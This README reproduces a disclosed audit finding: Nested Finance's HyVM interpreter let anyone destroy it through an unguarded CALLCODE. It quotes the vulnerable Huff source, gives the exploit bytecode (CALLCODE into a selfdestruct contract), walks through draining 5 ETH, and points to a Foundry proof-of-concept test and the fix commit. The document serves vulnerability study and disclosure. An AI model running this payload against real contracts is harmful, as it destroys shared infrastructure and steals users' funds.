

# Unprotected `CALLCODE` lets anyone destroy the Nested Finance HyVM master

> **Vulnerability classes:** vuln/logic/missing-check · vuln/access-control/missing-modifier · vuln/permanent-brick
>
> **Reproduction:** the test deploys the **real, audited, on-chain HyVM master bytecode** (mainnet `0xCB70efa43300Cd9B7eF4ed2087ceA7f7f6f3c195`, `NestedFi/HyVM@4e760d4`) unmodified and executes the real exploit: a crafted HyVM program that `CALLCODE`s an attacker contract whose code `SELFDESTRUCT`s — destroying the shared interpreter and draining its balance.

<!-- source-auditvault: https://github.com/Auditware/AuditVault/blob/main/findings/29663-unprotected-callcode-allows-anyone-to-destroy-the-hyvm-maste.md -->
<!-- date: 2023-02 -->

## Summary

HyVM is a Huff-written EVM interpreter ("EVM hypervisor") by Nested Finance: its
calldata **is** an EVM-bytecode program that it executes opcode-by-opcode. Trail of
Bits finding **TOB-NESTED** (2023-02 security review) reports that HyVM's `op_callcode`
handler runs a real `CALLCODE` opcode with **no restriction**. Because `CALLCODE`
executes the callee's code in the **caller's** (HyVM's) context, any account can submit
a program that `CALLCODE`s a contract whose code runs `SELFDESTRUCT` — the `SELFDESTRUCT`
then executes *as the HyVM master*, permanently destroying the shared interpreter for
every user and forwarding its balance to the attacker.

## Root cause

The audited master was deployed from the **no-verifier** HyVM build, in which the
`CHECK_CALLCODE()` guard macro is empty:

```huff
// src/abstracts/no-verifier.huff
#define macro CHECK_CALLCODE() = takes(0) returns (0) {
}
```

and `op_callcode` performs the raw opcode (Figure 1.1 in the ToB report,
`HyVM.huff#L682-L698`):

```huff
op_callcode:
    ... swap3 FIX_MEMOFFSET() swap3 swap5 FIX_MEMOFFSET() swap5
    CHECK_CALLCODE()   // <-- no-op: no restriction whatsoever
    callcode           // <-- real CALLCODE to an attacker-chosen address
    CONTINUE()
```

`CALLCODE` (like `DELEGATECALL`) executes the target's code in HyVM's own storage/address
context, so a `SELFDESTRUCT` reached through it destroys HyVM itself. The vendored real
Huff source is under [`src/hyvm-huff-source/`](src/hyvm-huff-source/) and the exact
audited runtime bytecode that is deployed is in
[`src/hyvm_master_runtime.hex`](src/hyvm_master_runtime.hex).

Nested Finance fixed this in `NestedFi/HyVM@5ede72f` ("fix: revert for callcode opcode
(#39)"), which replaces the handler body with `0x00 0x00 revert`.

## Exploit walkthrough (with numbers)

The exploit `program` submitted to HyVM is plain EVM bytecode:

```
6000 6000 6000 6000 6000   // PUSH1 0 x5  -> retSize, retOffset, argsSize, argsOffset, value
73 <destroyer 20 bytes>    // PUSH20 destroyer
5a                         // GAS   (forward all gas -> top of stack)
f2                         // CALLCODE(gas, destroyer, 0, 0,0, 0,0)
00                         // STOP
```

The `destroyer` runtime is `selfdestruct(attacker)`.

1. The HyVM master is deployed with the real audited bytecode and holds **5 ETH**
   (`address(hyvm).code.length == 5376`, balance `5e18`).
2. The attacker submits the `program` above with a direct call — no privilege required.
3. HyVM's unprotected `op_callcode` executes `CALLCODE` into `destroyer`. Running in the
   master's context, `destroyer`'s `SELFDESTRUCT` marks the **master** for destruction and
   sends its **5 ETH** to the attacker.
4. Harm: `address(hyvm).code.length == 0` (interpreter bricked), `hyvm.balance == 0`,
   `attacker.balance == 5 ETH`. A subsequent legitimate HyVM payload now returns success
   but executes **no code** — exactly the ToB exploit scenario where a Nested wallet's
   `delegatecall` into HyVM silently does nothing and the user's position is liquidated.



## Reproduction

```bash
_shared/run-poc/run_poc.sh 29663-unprotected-callcode-allows-anyone-to-destroy-the-hyvm-maste_exp -vvvvv
```

Expected result: `1 passed`. The single test in
[`test/29663-unprotected-callcode-allows-anyone-to-destroy-the-hyvm-maste_exp.sol`](test/29663-unprotected-callcode-allows-anyone-to-destroy-the-hyvm-maste_exp.sol)
deploys the real HyVM master, runs the exploit, and asserts the master's code is wiped
(`code.length == 0`), its 5 ETH is drained, the attacker received it, and a later HyVM
call succeeds while executing nothing. The exploit runs in `setUp()` so Foundry finalizes
the (Paris-semantics, end-of-transaction) `SELFDESTRUCT` before the assertions observe it.

## Sources

- [AuditVault finding #29663](https://github.com/Auditware/AuditVault/blob/main/findings/29663-unprotected-callcode-allows-anyone-to-destroy-the-hyvm-maste.md)
- [Trail of Bits — Nested Finance smart-contract security review (2023-02), TOB-NESTED](https://github.com/trailofbits/publications/blob/master/reviews/2023-02-nestedfinance-smartcontracts-securityreview.pdf)
- [Vulnerable HyVM at the deployed/audited commit `NestedFi/HyVM@4e760d4`](https://github.com/NestedFi/HyVM/tree/4e760d4/src/HyVM.huff) (`op_callcode` at `HyVM.huff#L682`)
- [Fix commit `NestedFi/HyVM@5ede72f` — revert for callcode opcode (#39)](https://github.com/NestedFi/HyVM/commit/5ede72f6cf856bd0331c960f13cbbe533dba23d2)
